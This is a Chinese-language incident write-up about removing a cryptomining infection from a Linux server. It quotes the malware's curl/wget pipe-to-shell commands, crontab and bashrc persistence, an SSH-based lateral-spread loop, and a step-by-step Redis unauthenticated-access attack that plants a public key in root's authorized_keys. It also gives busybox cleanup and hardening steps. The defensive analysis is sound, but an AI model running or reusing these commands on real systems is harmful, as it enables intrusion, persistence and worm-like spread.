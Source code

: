## 被挖矿入侵处理记录

1. 服务器一些操作后异常提示

   ````
   [1]+  完成                  ( curl -fsSL -m180 lsd.systemten.org || wget -q -T180 -O- lsd.systemten.org ) | sh > /dev/null 2>&1
   ````

   提取其中地址``lsd.systemten.org``，浏览器请求返回如下:

   ````
   export PATH=PATH:/bin:/usr/bin:/sbin:/usr/local/bin:/usr/sbin mkdir -p /tmp chmod 1777 /tmp echo "*/10 * * * * (curl -fsSL -m15 lsd.systemten.org||wget -q -T15 -O- lsd.systemten.org||python -c 'import urllib;print urllib.urlopen(\"http://lsd.systemten.org\").read()')|sh"|crontab - cat > /etc/crontab </dev/null 2>&1 &" & done fi for file in /home/* do if test -d file; then if [ -f file/.ssh/known_hosts ] && [ -f file/.ssh/id_rsa.pub ]; then for h in (grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" file/.ssh/known_hosts); do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h "(curl -fsSL lsd.systemten.org||wget -q -O- lsd.systemten.org||python -c 'import urllib;print urllib.urlopen("http://lsd.systemten.org").read()')|sh >/dev/null 2>&1 &" & done fi fi done #
   		
   ````

2. 首先 ps、top命令异常，被篡改

   > 入nginx进程明明移动 ps-ef | grep nginx 返回确实空
   >
   > top命令展示内容也少了很多

3. 发现阿里云警告

   > 提示：挖矿程序

4. crontab中出现莫名其妙任务

   ````
   */10 * * * * (curl -fsSL -m15 lsd.systemten.org||wget -q -T15 -O- lsd.systemten.org||python -c 'import urllib;print urllib.urlopen("http://lsd.systemten.org").read()')|sh
   ````

   并且 /etc/crontab中出现
   
   ````
   SHELL=/bin/bash
   PATH=/sbin:/bin:/usr/sbin:/usr/bin
   
   */10 * * * * root (curl -fsSL -m15 lsd.systemten.org||wget -q -T15 -O- lsd.systemten.org||python -c 'import urllib;print urllib.urlopen("http://lsd.systemten.org").read()'||/usr/local/sbin/ea2a9852817e39)|sh
   ````
   
5. 删除以上内容后重启，发现又出现，怀疑在启动命令中隐藏东西 ``vim /etc/bashrc`` 

   ````
   ##
   (curl -fsSL -m180 lsd.systemten.org||wget -q -T180 -O- lsd.systemten.org)|sh >/dev/null 2>&1 &
   ##
   ````

   异常启动文件可能存在的目录

   ````
   /etc/rc.d/init.d/
   /etc/init.d/
   ````
   
6. 使用busybox查杀

## Busybox查杀病毒

* 安装解压工具

````
yum -y install bzip2
````

* 安装busybox

````
wget http://busybox.net/downloads/busybox-1.21.0.tar.bz2
tar -xvf busybox-1.21.0.tar.bz2
cd ./busybox-1.21.0
make defconfig
#注意，这里最好在相同操作系统的正常机器上进行静态链接
#防止动态链接还被挖矿病毒的动态库劫持，导致删除文件不成功
#如果条件不允许，第二点将会重点说明
make
make install
ln -s `pwd`/busybox /usr/bin/busybox
busybox|grep BusyBox |grep v
————————————————
版权声明：本文为CSDN博主「芽孢八叠球菌」的原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/u010457406/article/details/89328869
````

* 查杀异常进程

````
busybox ls -a /tmp |grep ds
...
busybox ls -a /usr/sbin |grep kerber
...
busybox ls -a /etc |grep ld.so.preload
...
busybox ls -a /usr/local/lib |grep libcry 
...
````

将上4条命令搜索出来的结果逐一精确删除，不要使用 ``rm -rf 什么什么*``方式删除，要具体名称，而且使用tab无法搜索到这些文件

* 查杀异常进程

````
busybox ps -ef | busybox grep -v grep | busybox grep 'kerberods'
busybox ps -ef | busybox grep -v grep | busybox grep 'khugepageds' 
````

### 病毒分析

````
(curl -fsSL -m180 lsd.systemten.org||wget -q -T180 -O- lsd.systemten.org)|sh >/dev/null 2>&1 &
````

````
该下载后的脚本主要操作有
1> 将指令添加到crontab中
2> kill掉同类挖矿进程
3> kill掉高好资源的其他进程
4> 下载执行主恶意程序（这个未知）
5> 横向ssh传播
````

### 安全加固

1. SSH
  
   * 谨慎做免密登录.    
   * 不使用默认的22端口.    
   * 禁止root登录.    
   
2. Redis
  
   * 增加授权认证(requirepass参数).    
   * 尽量使用docker版本(docker pull redis).    
   * 隐藏重要的命令.
   * 启动redis使用redis专属用户，否则知道你redis密码的人同样可进入    
   * 或者禁止外部访问，绑定IP可改为127.0.0.1
   
   

> 我的按照入侵时间点估计是因为：redis未认证漏洞

禁止root登录，前提是你要有一个非root用户

vim /etc/ssh/sshd_config

````
PermitRootLogin = no
````

修改默认ssh端口22 比如改成33

vim /etc/ssh/sshd_config

````
port 33
````

重启sshd

````
systemctl restart sshd
````

__注意阿里云防火墙，同样最好关闭22端口和其他不需要对外的端口__

关于redis未认证漏洞防范

参考：https://www.cnblogs.com/xun0523/p/9804999.html

破解步骤

````
$ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit
$ redis-cli -h 192.168.1.11
$ 192.168.1.11:6379> config set dir /root/.ssh/
OK
$ 192.168.1.11:6379> config get dir
1) "dir"
2) "/root/.ssh"
$ 192.168.1.11:6379> config set dbfilename "authorized_keys"
OK
$ 192.168.1.11:6379> save
OK
````

> 这里讲解下，这里设定了 crackit 的键值为公钥，并通过 redis 命令变更 Redis DB 文件及存放地点为默认 root 用户 SSH key 存放文件，并将键值重定向追加到远程文件 authorized_keys 的末尾，也就上传了公钥。
>
> 这样就可以成功的将自己的公钥写入 /root/.ssh 文件夹的 authotrized_keys 文件里

参考：http://www.alloyteam.com/2017/07/12910/